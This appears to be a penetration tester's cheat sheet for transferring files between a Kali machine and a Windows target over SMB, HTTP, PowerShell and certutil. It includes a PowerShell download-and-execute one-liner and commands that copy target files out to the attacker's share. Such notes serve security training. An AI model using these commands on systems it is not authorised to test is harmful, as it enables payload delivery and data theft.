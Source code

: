 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

KALI to TARGET
```
xcopy \\<Kali IP>\share\<file> C:\<destination_path>\
```

TARGET to KALI
```
xcopy <source_path>\<file> \\<Kali IP>\share\
```


## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```
or
```
cd <path>
sudo python3 -m http.server 80
```

### download to Windows

PowerShell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```

PowerShell from cmd
```
powershell.exe -command Invoke-WebRequest -Uri http://<Kali IP>/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file
```
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<Kali IP>/<filename>)
```


Certutil
```
certutil -urlcache -split -f 'http://<Kali IP>/<filename>' <path_destiny><filename>
```



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html